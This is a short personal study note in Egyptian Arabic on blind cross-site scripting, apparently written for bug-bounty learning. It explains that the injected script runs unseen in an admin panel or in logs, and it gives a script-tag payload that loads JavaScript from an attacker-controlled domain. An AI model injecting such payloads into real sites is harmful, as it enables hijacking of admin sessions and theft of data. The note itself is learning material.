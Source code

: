 #### شرحها علشان تفهمها :  
- [[شرح الخطوه Blind XSS Payloads]]
- [[شرح فديوهات لل الخطوة Blind XSS Payloads]]

#### توضيح سريع :

![Recording 20250629025752.m4a](attachments/Recording 20250629025752.m4a)

![Recording 20250629025840.m4a](attachments/Recording 20250629025840.m4a)


#### ✅ فكرة الهجوم:

تحقن السكريبت في مكان مبيتظهرش ليك، لكن بيتنفذ في Admin Panel أو Logs أو مكان تاني.

### البايلود اللي تستخدمها :

```html 
<script src="https://xss.yourdomain.com/x.js"></script>
```

![XSS_exploit_pyloads.txt](attachments/XSS_exploit_pyloads.txt)

